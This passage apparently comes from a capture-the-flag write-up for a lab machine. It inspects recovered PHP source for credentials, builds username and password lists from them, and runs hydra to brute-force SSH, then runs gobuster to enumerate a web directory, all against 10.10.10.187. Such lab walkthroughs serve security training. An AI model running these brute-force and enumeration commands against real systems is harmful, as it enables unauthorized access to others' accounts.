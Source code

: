 ```php+HTML
      <option value=5 disabled>Backup shadow file</option>
      <option value=6 disabled>Backup web data</option>
      <option value=7 disabled>Backup database</option>
    </select>
    <input type="submit">
  </form>
</body>
</html>
```

This page does not look immediately vulnerable to command injection since `$task` is filtered to a set of values... The directory `w4ld0s_s3cr3t_d1r` has some more credentials/usernames in it. Also, looking for `$password` shows some new possible passwords:

```bash
grep -r '$password' .
```

![hydra1](./admirer/hydra1.png)

combine these new usernames/passwords and try to gain access:

```bash
# add new usernames to the previous file
echo 'waldo'     >> users.txt
echo 'waldo.11'  >> users.txt 
echo 'w.cooper'  >> users.txt
# make a new local password dump
echo 'fgJr6q#S\W:$P'           >> pass.txt
echo 'Ezy]m27}OREc$'           >> pass.txt
echo '%n?4Wz}R$tTF7'           >> pass.txt
echo 'w0rdpr3ss01!'            >> pass.txt
echo ']F7jLHw:*G>UPrTo}~A"d6b' >> pass.txt     
echo 'Wh3r3_1s_w4ld0?'         >> pass.txt
# try to login 
hydra -V -f -L users.txt -P pass.txt ssh://10.10.10.187
```

No luck... Since `utility-scripts/admin_tasks.php` exists on the target server, try enumerating for other files:

- Use a more targetd scan from [seclists](https://github.com/danielmiessler/SecLists)

```bash
sudo apt install seclists --upgrade
ulimit -n 8192 # prevent file access error during gobuster scanning
gobuster dir -t 50 -q -z -e -o gobuster.utility_scripts.txt \
   -w /usr/share/seclists/Discovery/Web-Content/quickhits.txt \
   -a 'Mozilla/5.0' \
   -u http://10.10.10.187/utility-scripts/ &
```

